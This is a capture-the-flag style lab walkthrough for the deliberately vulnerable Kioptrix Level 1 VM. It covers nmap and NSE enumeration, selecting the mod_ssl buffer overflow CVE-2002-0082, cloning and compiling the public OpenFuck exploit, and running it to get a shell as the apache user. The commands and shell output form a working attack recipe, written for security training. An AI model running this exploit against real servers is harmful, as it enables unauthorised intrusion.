









# 🎯 Kioptrix Level 1 — Method 1: Apache mod_ssl (OpenFuck)
**Target:** `10.0.2.5` | **Attacker (Kali):** `10.0.2.15` | **Port:** `443/TCP`  
**Vulnerability:** `mod_ssl 2.8.4` Remote Buffer Overflow (CVE-2002-0082)  
**Access Level:** ==Low-Privilege Shell (`apache`, UID 48)== | **Status:** ==VERIFIED==

---

## ⚡ Quick Reference & Attack Flow

```
[1. Recon & Discovery] ────────► [2. Targeted Scripts] ────────► [3. Exploit Prep] ────────► [4. Shell Verification]
Target: 10.0.2.5                 Identify web directories        Compile OpenFuck (-lcrypto)   Execute with offset 0x6b
Apache 1.3.20 + mod_ssl 2.8.4    (/test.php, /usage/)            Select target code 0x6b       uid=48(apache) obtained
```

---

## 1. Host & Port Discovery

### 1.1 Network Discovery
* **Attacker IP (`ip a`):** ==`10.0.2.15/24`== on interface `eth0`.
* **Host Sweep (`nmap -sn 10.0.2.0/24`):** Discovered target host at ==`10.0.2.5`== (Oracle VirtualBox MAC: `08:00:27:64:01:F0`).

### 1.2 Aggressive Port Scan (`nmap -A 10.0.2.5`)
Open ports and services discovered:

| Port | Service | Software & Exact Version Banner | Relevance |
| :---: | :--- | :--- | :--- |
| **22/tcp** | SSH | OpenSSH 2.9p2 (protocol 1.99, supports SSHv1) | Legacy SSH |
| **80/tcp** | HTTP | ==Apache httpd 1.3.20 (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b== | [Primary Attack Surface](#3-vulnerability-selection) |
| **111/tcp** | rpcbind | 2 (RPC #100000) | RPC coordinator |
| **139/tcp** | netbios-ssn | Samba smbd (workgroup: `MYGROUP`) | SMB service |
| **443/tcp** | https | ==Apache/1.3.20 mod_ssl/2.8.4 OpenSSL/0.9.6b== (SSLv2 supported) | [Exploit Target Port](#4-weaponization--setup) |
| **32768/tcp**| status | 1 (RPC #100024) | RPC status daemon |

#### Key Scan Evidence:
* **Port 80 (HTTP / Apache 1.3.20 / mod_ssl 2.8.4):**  
  

* **Port 139 (NetBIOS Samba smbd):**  
  

* **Port 32768 (RPC Status 1):**  
  

* **Web Browser Verification:** Visiting `http://10.0.2.5/` displays the default *Apache Web Server on Red Hat Linux* test page.

---

## 2. Targeted NSE Script Enumeration

### 2.1 Locating Relevant Scripts
Filter local Nmap script directory for services identified in [Section 1.2](#12-aggressive-port-scan-nmap--a-10025):
```bash
ls -al /usr/share/nmap/scripts | grep -E "http|smb|rpc"
```


### 2.2 Targeted Script Execution
Execute specific discovery scripts against the open ports:
```bash
nmap -p 111,139,80,443 --script=rpcinfo,smb-os-discovery,smb-enum-shares,http-enum 10.0.2.5
```


> [!NOTE]
> **Script Findings:**
> * Web paths uncovered on Port 80: `/test.php` (Test page), `/icons/`, `/manual/`, and `/usage/`.
> * RPC program `100000` mapped on Port 111; `100024` mapped on Port 32768.

---

## 3. Vulnerability Selection

Cross-referencing the service banner identified in [Section 1.2](#12-aggressive-port-scan-nmap--a-10025) (`Apache 1.3.20` + `mod_ssl 2.8.4` on `Red Hat Linux 7.2`):



* **Selected Exploit:** ==OpenFuck / mod_ssl Remote Buffer Overflow (CVE-2002-0082)==
* **Target Profile:** `RedHat Linux 7.2 (apache-1.3.20-16)` ➔ Target code ==`0x6b`==.

---

## 4. Weaponization & Setup

### 4.1 Clone Repository & Install Dependencies
```bash
git clone https://github.com/heltonWernik/OpenFuck.git
cd OpenFuck
sudo apt-get install libssl-dev
```
Verify cloned directory contents:
```bash
ls
```


### 4.2 Compile Exploit
```bash
sudo gcc -o OpenFuck OpenFuck.c -lcrypto
```
*(Links the OpenSSL cryptographic library via `-lcrypto`)*.

### 4.3 Offset Enumeration
Run `./OpenFuck` to list supported system architectures:
```bash
./OpenFuck
```


> [!IMPORTANT]
> **Offset Selection Rationale:**  
> Our scan in [Section 1.2](#12-aggressive-port-scan-nmap--a-10025) identified `Red Hat Linux` running `Apache 1.3.20`. From the list above, ==`0x6b`== corresponds exactly to `RedHat Linux 7.2 (apache-1.3.20-16)2`.

---

## 5. Execution & Proof of Access

### 5.1 Launch Exploit
Run the exploit against the target IP (`10.0.2.5` from [Section 1.1](#11-network-discovery)) on HTTPS port `443` using target code `0x6b`:
```bash
./OpenFuck 0x6b 10.0.2.5 443 -c 40
```

### 5.2 Shell Output & Proof of Compromise


```text
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8070
Ready to send shellcode
Spawning shell...
bash-2.05$ whoami
apache
bash-2.05$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-2.05$ uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
bash-2.05$ ls
OpenFuck.c
```

> [!SUCCESS]
> **Initial Access Confirmed:** Gained interactive shell as ==`apache` (UID 48)== on kernel `2.4.7-10`. Method 1 is complete.